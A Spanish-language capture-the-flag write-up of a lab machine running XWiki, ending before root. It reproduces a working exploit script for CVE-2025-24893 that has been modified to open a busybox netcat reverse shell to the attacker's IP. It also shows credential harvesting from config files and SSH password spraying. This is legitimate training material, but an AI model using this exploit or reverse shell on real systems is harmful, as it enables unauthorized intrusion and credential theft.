




# Resolución maquina editor

**Autor:** PepeMaquina  
**Fecha:** 11 de diciembre de 2025  
**Dificultad:** Easy  
**Sistema Operativo:** Linux  
**Tags:** CVE, xwiki, Internal Service.

---
## Imagen de la Máquina

*Imagen: editor.JPG*
## Reconocimiento Inicial
### Escaneo de Puertos
Comenzamos con un escaneo completo de nmap para identificar servicios expuestos:
~~~ bash
sudo nmap -p- --open -sS -vvv --min-rate 5000 -n -Pn 10.10.11.80 -oG networked
~~~
Luego queda realizar un escaneo detallado de puertos abiertos:
~~~ bash
sudo nmap -sCV -p22,80,8080 10.10.11.80 -oN targeted
~~~
### Enumeración de Servicios
~~~ 
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://editor.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
8080/tcp open  http    Jetty 10.0.20
| http-cookie-flags: 
|   /: 
|     JSESSIONID: 
|_      httponly flag not set
|_http-server-header: Jetty(10.0.20)
| http-webdav-scan: 
|   WebDAV type: Unknown
|   Allowed Methods: OPTIONS, GET, HEAD, PROPFIND, LOCK, UNLOCK
|_  Server Type: Jetty(10.0.20)
| http-title: XWiki - Main - Intro
|_Requested resource was http://editor.htb:8080/xwiki/bin/view/Main/
|_http-open-proxy: Proxy might be redirecting requests
| http-methods: 
|_  Potentially risky methods: PROPFIND LOCK UNLOCK
| http-robots.txt: 50 disallowed entries (15 shown)
| /xwiki/bin/viewattachrev/ /xwiki/bin/viewrev/ 
| /xwiki/bin/pdf/ /xwiki/bin/edit/ /xwiki/bin/create/ 
| /xwiki/bin/inline/ /xwiki/bin/preview/ /xwiki/bin/save/ 
| /xwiki/bin/saveandcontinue/ /xwiki/bin/rollback/ /xwiki/bin/deleteversions/ 
| /xwiki/bin/cancel/ /xwiki/bin/delete/ /xwiki/bin/deletespace/ 
|_/xwiki/bin/undelete/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~
A simple vista se puede ver que el servicio ssh no es vulnerable, asi tambien contiene otros servicios como http y el 8080, asi que se revisara esto a detalle.
### Enumeración de la página web
Al inspeccionar el resultado del escaneo se ve que redirige a un dominio especifico "editor.htb" que agregamos al etc/hosts
~~~bash
cat /etc/hosts
127.0.0.1 localhost
<SNIP>
10.10.11.80 editor.htb
~~~
Luego de realizar todo esto, se procedio a inspeccionar la pagina a detalle.

Realmente no se pudo encontrar algo interesante mas que la descarga de un binario.
Pero enumerando las paginas adyacentes, se pudo ver que existe una redireccion a un subdominio.

Esto se agrego directamente el "/etc/hosts".
~~~bash
cat /etc/hosts
127.0.0.1 localhost
<SNIP>
10.10.11.80 editor.htb wiki.editor.htb
~~~
Luego inspeccionando, veo que es una especie de editor de codigo, pero es una aplicacion ya predefinida. Revisando tanbien el puerto 8080 que se vio abierto, resulta que es lo mismo.

Como se puede ver, esto presenta una version, asi que lo primero que hago es buscar una version vulnerable para ver si se puede encontrar alguna forma de entrar por RCE.
Al buscar en internet, se encontro un CVE (CVE-2025-24893) que afecta a versiones 15.10.10 y ejecuta un RCE, asi que como mi version es mas antigua, probablemente funcione.

### Exploit CVE-2025-24893
El exploit que encontre mas automatizado es (https://github.com/a1baradi/Exploit/blob/main/CVE-2025-24893.py).
***NOTA: Al leer el codigo y su funcionamiento se hallo la forma correcta de agregar la URL***
~~~bash
┌──(kali㉿kali)-[~/htb/editor2/exploits]
└─$ python3 cve.py
================================================================================
Exploit Title: CVE-2025-24893 - XWiki Platform Remote Code Execution
Made By Al Baradi Joy
================================================================================
[?] Enter the target URL (without http/https): wiki.editor.htb/xwiki
[!] HTTPS not available, falling back to HTTP.
[✔] Target supports HTTP: http://wiki.editor.htb/xwiki
[+] Sending request to: http://wiki.editor.htb/xwiki/bin/get/Main/SolrSearch?media=rss&text=%7d%7d%7d%7b%7basync%20async%3dfalse%7d%7d%7b%7bgroovy%7d%7dprintln(%22cat%20/etc/passwd%22.execute().text)%7b%7b%2fgroovy%7d%7d%7b%7b%2fasync%7d%7d
[✔] Exploit successful! Output received:

&lt;?xml version="1.0" encoding="UTF-8"?&gt; &lt;rss xmlns:dc="<a class="wikimodel-freestanding" href="http://purl.org/dc/elements/1.1/">http://purl.org/dc/elements/1.1/</a>" version="2.0"&gt; &nbsp;&nbsp;&lt;channel&gt; &nbsp;&nbsp;&nbsp;&nbsp;&lt;title&gt;RSS feed for search on [}}}root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin systemd-network:x:101:102:systemd Network Management,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:102:103:systemd Resolver,:/run/systemd:/usr/sbin/nologin messagebus:x:103:104::/nonexistent:/usr/sbin/nologin systemd-timesync:x:104:105:systemd Time Synchronization,:/run/systemd:/usr/sbin/nologin pollinate:x:105:1::/var/cache/pollinate:/bin/false sshd:x:106:65534::/run/sshd:/usr/sbin/nologin syslog:x:107:113::/home/syslog:/usr/sbin/nologin uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin tss:x:110:116:TPM software stack,:/var/lib/tpm:/bin/false landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin fwupd-refresh:x:112:118:fwupd-refresh user,:/run/systemd:/usr/sbin/nologin usbmux:x:113:46:usbmux daemon,:/var/lib/usbmux:/usr/sbin/nologin lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false dnsmasq:x:114:65534:dnsmasq,:/var/lib/misc:/usr/sbin/nologin mysql:x:115:121:MySQL Server,:/nonexistent:/bin/false tomcat:x:998:998:Apache Tomcat:/var/lib/tomcat:/usr/sbin/nologin xwiki:x:997:997:XWiki:/var/lib/xwiki:/usr/sbin/nologin netdata:x:996:999:netdata:/opt/netdata:/usr/sbin/nologin oliver:x:1000:1000:,:/home/oliver:/bin/bash _laurel:x:995:995::/var/log/laurel:/bin/false]&lt;/title&gt; &nbsp;&nbsp;&nbsp;&nbsp;&lt;link&gt;<a class="wikimodel-freestanding" href="http://wiki.editor.htb:80/xwiki/bin/view/Main/SolrSearch?text=%7D%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7Dprintln%28%22cat%20%2Fetc%2Fpasswd%22.execute%28%29.text%29%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D">http://wiki.editor.htb:80/xwiki/bin/view/Main/SolrSearch?text=%7D%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7Dprintln%28%22cat%20%2Fetc%2Fpasswd%22.execute%28%29.text%29%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D</a>&lt;/link&gt; &nbsp;&nbsp;&nbsp;&nbsp;&lt;description&gt;RSS feed for search on [}}}root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin systemd-network:x:101:102:systemd Network Management,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:102:103:systemd Resolver,:/run/systemd:/usr/sbin/nologin messagebus:x:103:104::/nonexistent:/usr/sbin/nologin systemd-timesync:x:104:105:systemd Time Synchronization,:/run/systemd:/usr/sbin/nologin pollinate:x:105:1::/var/cache/pollinate:/bin/false sshd:x:106:65534::/run/sshd:/usr/sbin/nologin syslog:x:107:113::/home/syslog:/usr/sbin/nologin uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin tss:x:110:116:TPM software stack,:/var/lib/tpm:/bin/false landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin fwupd-refresh:x:112:118:fwupd-refresh user,:/run/systemd:/usr/sbin/nologin usbmux:x:113:46:usbmux daemon,:/var/lib/usbmux:/usr/sbin/nologin lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false dnsmasq:x:114:65534:dnsmasq,:/var/lib/misc:/usr/sbin/nologin mysql:x:115:121:MySQL Server,:/nonexistent:/bin/false tomcat:x:998:998:Apache Tomcat:/var/lib/tomcat:/usr/sbin/nologin xwiki:x:997:997:XWiki:/var/lib/xwiki:/usr/sbin/nologin netdata:x:996:999:netdata:/opt/netdata:/usr/sbin/nologin oliver:x:1000:1000:,:/home/oliver:/bin/bash _laurel:x:995:995::/var/log/laurel:/bin/false]&lt;/description&gt; &nbsp;&nbsp;&nbsp;&nbsp;&lt;language&gt;en&lt;/language&gt; &nbsp;&nbsp;&nbsp;&nbsp;&lt;copyright /&gt; &nbsp;&nbsp;&nbsp;&nbsp;&lt;dc:creator&gt;XWiki&lt;/dc:creator&gt; &nbsp;&nbsp;&nbsp;&nbsp;&lt;dc:language&gt;en&lt;/dc:language&gt; &nbsp;&nbsp;&nbsp;&nbsp;&lt;dc:rights /&gt; &nbsp;&nbsp;&lt;/channel&gt; &lt;/rss&gt;

~~~
Tal parece que el exploit funciona, lo que ejecuta es un "cat /etc/passwd" hacia el servidor, asi que modificando el codigo del exploit se puede generar una reverse shell.
~~~python
import requests

# Banner
def display_banner():
    print("="*80)
    print("Exploit Title: CVE-2025-24893 - XWiki Platform Remote Code Execution")
    print("Made By Al Baradi Joy")
    print("="*80)

# Function to detect the target protocol (HTTP or HTTPS)
def detect_protocol(domain):
    https_url = f"https://{domain}"
    http_url = f"http://{domain}"

    try:
        response = requests.get(https_url, timeout=5, allow_redirects=True)
        if response.status_code < 400:
            print(f"[✔] Target supports HTTPS: {https_url}")
            return https_url
    except requests.exceptions.RequestException:
        print("[!] HTTPS not available, falling back to HTTP.")

    try:
        response = requests.get(http_url, timeout=5, allow_redirects=True)
        if response.status_code < 400:
            print(f"[✔] Target supports HTTP: {http_url}")
            return http_url
    except requests.exceptions.RequestException:
        print("[✖] Target is unreachable on both HTTP and HTTPS.")
        exit(1)

# Exploit function
def exploit(target_url):
    target_url = detect_protocol(target_url.replace("http://", "").replace("https://", "").strip())
    exploit_url = f"{target_url}/bin/get/Main/SolrSearch?media=rss&text=%7d%7d%7d%7b%7basync%20async%3dfalse%7d%7d%7b%7bgroovy%7d%7dprintln(%22busybox%20nc%2010.10.15.253%204444%20-e%20%2Fbin%2Fbash%22.execute().text)%7b%7b%2fgroovy%7d%7d%7b%7b%2fasync%7d%7d"

    try:
        print(f"[+] Sending request to: {exploit_url}")
        response = requests.get(exploit_url, timeout=10)

        # Check if the exploit was successful
        if response.status_code == 200 and "root:" in response.text:
            print("[✔] Exploit successful! Output received:")
            print(response.text)
        else:
            print(f"[✖] Exploit failed. Status code: {response.status_code}")

    except requests.exceptions.ConnectionError:
        print("[✖] Connection failed. Target may be down.")
    except requests.exceptions.Timeout:
        print("[✖] Request timed out. Target is slow or unresponsive.")
    except requests.exceptions.RequestException as e:
        print(f"[✖] Unexpected error: {e}")

# Main execution
if __name__ == "__main__":
    display_banner()
    target = input("[?] Enter the target URL (without http/https): ").strip()
    exploit(target)
~~~
En este caso yo use la confiable busybox encodeado a URL.
Por otro lado antes de ejecutarlo preparo un escucha.
~~~bash
┌──(kali㉿kali)-[~/htb/editor2/exploits]
└─$ penelope -p 4444
[+] Listening for reverse shells on 0.0.0.0:4444 →  127.0.0.1 • 192.168.5.128 • 172.17.0.1 • 10.10.15.253
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
~~~
Y luego corro el exploit.
~~~bash
┌──(kali㉿kali)-[~/htb/editor2/exploits]
└─$ python3 cve.py
================================================================================
Exploit Title: CVE-2025-24893 - XWiki Platform Remote Code Execution
Made By Al Baradi Joy
================================================================================
[?] Enter the target URL (without http/https): wiki.editor.htb/xwiki
[!] HTTPS not available, falling back to HTTP.
[✔] Target supports HTTP: http://wiki.editor.htb/xwiki
[+] Sending request to: http://wiki.editor.htb/xwiki/bin/get/Main/SolrSearch?media=rss&text=%7d%7d%7d%7b%7basync%20async%3dfalse%7d%7d%7b%7bgroovy%7d%7dprintln(%22busybox%20nc%2010.10.15.253%204444%20-e%20%2Fbin%2Fbash%22.execute().text)%7b%7b%2fgroovy%7d%7d%7b%7b%2fasync%7d%7d
[✖] Exploit failed. Status code: 200
~~~
Tal parece que no funciona, pero si se revisa bien el escucha, se puede ver que si se genero una shell.
~~~bash
┌──(kali㉿kali)-[~/htb/editor2/exploits]
└─$ penelope -p 4444
[+] Listening for reverse shells on 0.0.0.0:4444 →  127.0.0.1 • 192.168.5.128 • 172.17.0.1 • 10.10.15.253
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] Got reverse shell from editor~10.10.11.80-Linux-x86_64 😍 Assigned SessionID <1>
[+] Attempting to upgrade shell to PTY...
[+] Got reverse shell from editor~10.10.11.80-Linux-x86_64 😍 Assigned SessionID <2>
[+] Shell upgraded successfully using /usr/bin/python3! 💪
[+] Interacting with session [1], Shell Type: PTY, Menu key: F12 
[+] Logging to /home/kali/.penelope/sessions/editor~10.10.11.80-Linux-x86_64/2025_12_11-14_08_14-523.log 📜
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
xwiki@editor:/usr/lib/xwiki-jetty$ id
uid=997(xwiki) gid=997(xwiki) groups=997(xwiki)
~~~
Con esto ya se tiene acceso a una sesion como el usuario "xwiki", en este punto me pongo a enumerar todo lo que pueda para obtener toda la informacion posible.

### Pivoting al usuario oliver
Veo que es una aplicacion con bastante informacion, asi que como a primera vista no encuentro gran cosa, entonces busco en internet posibles archivos de configuracion, encontrando:
- xwiki.cfg
- xwiki.properties
~~~bash
xwiki@editor:/etc/xwiki$ find / -name xwiki.cfg 2>/dev/null
/etc/xwiki/xwiki.cfg
/usr/lib/xwiki/WEB-INF/xwiki.cfg
/usr/share/xwiki/default/xwiki.cfg

xwiki@editor:/etc/xwiki$ find / -name xwiki.properties 2>/dev/null
/etc/xwiki/xwiki.properties
/usr/lib/xwiki/WEB-INF/xwiki.properties
/usr/share/xwiki/default/xwiki.properties
~~~
Al revisar las informacion de estos archivos no se pudo obtener algo util.
~~~bash
xwiki@editor:/tmp/pepe$ cat /etc/xwiki/xwiki.properties | grep "password"
#-# * password: the password to use to authenticate to the repository
# extension.repositories.privatemavenid.auth.password = thepassword
#-# Define the lifetime of the token used for resetting passwords in minutes. Note that this value is only used after
#-# Use a different value if the reset password email link might be accessed several times (e.g. in case of using an
#-# This parameter defines if as part of the migration R140600000XWIKI19869 the passwords of impacted user should be
#-# their users to keep their passwords nevertheless, then enable the configuration and set it to false before the
#-# This parameter defines if reset password emails should be sent as part of the migration R140600000XWIKI19869.
#-# this option to false: note that in such case a file containing the list of users for whom a reset password email
#-# this option to false: note that in such case a file containing the list of users for whom a reset password email
#-# This configuration property can be overridden in XWikiPreferences objects, by using the "smtp_server_password"
# mail.sender.password = somepassword

xwiki@editor:/tmp/pepe$ cat /etc/xwiki/xwiki.cfg | grep "password"
# xwiki.superadminpassword=system
~~~
Pero la ruta que nos dio "/etc/xwiki" parece ser la raiz principal de esta aplicación (Como esta corriendo tomcat por detras, normalmente donde se suele buscar archivos es en "/etc", asi que creo que voy en buen camino).
~~~bash
xwiki@editor:/etc/xwiki$ ls
cache       hibernate.cfg.xml               jetty-ee8-web.xml  observation  version.properties  xwiki-locales.txt
extensions  hibernate.cfg.xml.ucf-dist      jetty-web.xml      portlet.xml  web.xml             xwiki.properties
fonts       jboss-deployment-structure.xml  logback.xml        sun-web.xml  xwiki.cfg           xwiki-tomcat9.xml
~~~
Al revisar los archivos que mas me llaman la atención, puedo ver un par de contraseñas interesantes.
~~~bash
xwiki@editor:/etc/xwiki$ cat hibernate.cfg.xml.ucf-dist | grep "password"
    <property name="hibernate.connection.password">xwikipassword2025</property>
    <property name="hibernate.connection.password">xwiki</property>
    <property name="hibernate.connection.password">xwiki</property>
    <property name="hibernate.connection.password"></property>
    <property name="hibernate.connection.password">xwiki</property>
    <property name="hibernate.connection.password">xwiki</property>
    <property name="hibernate.connection.password"></property>
xwiki@editor:/etc/xwiki$ cat hibernate.cfg.xml | grep "password"
    <property name="hibernate.connection.password">theEd1t0rTeam99</property>
    <property name="hibernate.connection.password">xwiki</property>
    <property name="hibernate.connection.password">xwiki</property>
    <property name="hibernate.connection.password"></property>
    <property name="hibernate.connection.password">xwiki</property>
    <property name="hibernate.connection.password">xwiki</property>
    <property name="hibernate.connection.password"></property>
~~~
Con algunas contraseñas disponibles, veo los usuarios que existen y a los que podria tener acceso por ssh.
~~~bash
xwiki@editor:/etc/xwiki$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
oliver:x:1000:1000:,,,:/home/oliver:/bin/bash
~~~
Asi que intento conectarme por ssh con todas las credenciales obtenidas.
~~~bash
┌──(kali㉿kali)-[~/htb/editor2]
└─$ sudo netexec ssh 10.10.11.80 -u users -p pass --continue-on-success
SSH         10.10.11.80     22     10.10.11.80      [*] SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.13
SSH         10.10.11.80     22     10.10.11.80      [-] oliver:xwikipassword2025
SSH         10.10.11.80     22     10.10.11.80      [-] oliver:xwiki
SSH         10.10.11.80     22     10.10.11.80      [+] oliver:theEd1t0rTeam99  Linux - Shell access!
~~~
BINGO!!!!
Se pudo obtener las credenciales del usuario oliver.
***NOTA: ALgo interesante que pude notar, es que solo se puede conectar por sshm ya que al intentar conectarme desde la misma sesion que tenia con xwiki, aparecia el error de "Authentication failure"***

---
## User Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`
### User Flag
Al poder probar el ingreso por ssh empleando dichas credenciales, se puede ver que son validas y la user flag se encuentra en ese lugar.
~~~bash
┌──(kali㉿kali)-[~/htb/editor2/exploits]
└─$ ssh oliver@10.10.11.80               
oliver@10.10.11.80's password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-151-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Thu Dec 11 04:37:13 AM UTC 2025

  System load:  0.52              Processes:             239
  Usage of /:   75.4% of 7.28GB   Users logged in:       0
  Memory usage: 56%               IPv4 address for eth0: 10.10.11.80
  Swap usage:   0%

Expanded Security Maintenance for Applications is not enabled.

4 updates can be applied immediately.
To see these additional updates run: apt list --upgradable

4 additional security updates can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm

The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Thu Dec 11 04:37:14 2025 from 10.10.15.253
oliver@editor:~$ ls
user.txt
oliver@editor:~$ cat user.txt
<Encuentre su propia usre flag>
~~~

---
## Escalada de Privilegios
### Permisos SUID
Al realizar la enumeración basica, se revisaron los permisos SUID, logrando obtener los siguiente:
~~~bash
oliver@editor:~$ find / -type f -perm -04000 -ls 2>/dev/null
    49126    944 -rwsr-x---   1 root     netdata    965056 Apr  1  2024 /opt/netdata/usr/libexec/netdata/plugins.d/cgroup-network
    49412   1348 -rwsr-x---   1 root     netdata   1377624 Apr  1  2024 /opt/netdata/usr/libexec/netdata/plugins.d/network-viewer.plugin
    49409   1120 -rwsr-x---   1 root     netdata   1144224 Apr  1  2024 /opt/netdata/usr/libexec/netdata/plugins.d/local-listeners
    49411    196 -rwsr-x---   1 root     netdata    200576 Apr  1  2024 /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo
    49407     80 -rwsr-x---   1 root     netdata     81472 Apr  1  2024 /opt/netdata/usr/libexec/netdata/plugins.d/ioping
    49413    876 -rwsr-x---   1 root     netdata    896448 Apr  1  2024 /opt/netdata/usr/libexec/netdata/plugins.d/nfacct.plugin
    49402   4164 -rwsr-x---   1 root     netdata   4261672 Apr  1  2024 /opt/netdata/usr/libexec/netdata/plugins.d/ebpf.plugin
      819     40 -rwsr-xr-x   1 root     root        40496 Feb  6  2024 /usr/bin/newgrp
      298     72 -rwsr-xr-x   1 root     root        72072 Feb  6  2024 /usr/bin/gpasswd
    12457     56 -rwsr-xr-x   1 root     root        55680 Apr  9  2024 /usr/bin/su
     9922     36 -rwsr-xr-x   1 root     root        35200 Apr  9  2024 /usr/bin/umount
      296     44 -rwsr-xr-x   1 root     root        44808 Feb  6  2024 /usr/bin/chsh
      681     36 -rwsr-xr-x   1 root     root        35200 Mar 23  2022 /usr/bin/fusermount3
      676    228 -rwsr-xr-x   1 root     root       232416 Jun 25 12:48 /usr/bin/sudo
      299     60 -rwsr-xr-x   1 root     root        59976 Feb  6  2024 /usr/bin/passwd
      745     48 -rwsr-xr-x   1 root     root        47488 Apr  9  2024 /usr/bin/mount
      295     72 -rwsr-xr-x   1 root     root        72712 Feb  6  2024 /usr/bin/chfn
     1409     36 -rwsr-xr--   1 root     messagebus    35112 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    14070    332 -rwsr-xr-x   1 root     root         338536 Apr 11  2025 /usr/lib/openssh/ssh-keysign
    13665     20 -rwsr-xr-x   1 root     root          18736 Feb 26  2022 /usr/libexec/polkit-agent-helper-1
~~~
Se puede ver una seria de archivos que no son comunes como "/opt/netdata", pero esto puede ser usado por el grupo netdata, asi que revisando eso, yo soy parte de dicho grupo:
~~~bash
oliver@editor:/$ id
uid=1000(oliver) gid=1000(oliver) groups=1000(oliver),999(netdata)
~~~
Como no se nada sobre este servicio o aplicacion entonces la busco en internet. Al revisar información, tal parece que esto es un servicio de monitoreo que corre por el puerto 19999.
~~~bash
oliver@editor:/opt/netdata$ netstat -lnpt
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8125          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:46699         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:19999         0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::8080                 :::*                    LISTEN      -                   
tcp6       0      0 127.0.0.1:8079          :::*                    LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      - 
~~~
Revisando este puerto en mi maquina veo que si esta abierto, asi que pare verlo desde mi maquina, realizo un portforwarding por ssh para dicho puerto.
~~~bash
┌──(kali㉿kali)-[~/htb/editor2/exploits]
└─$ ssh -L 19999:localhost:19999 oliver@10.10.11.80
oliver@10.10.11.80's password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-151-generic x86_64)
.............
<SNIP>
.............
~~~
Con esto me pongo a ver la aplicacion web.

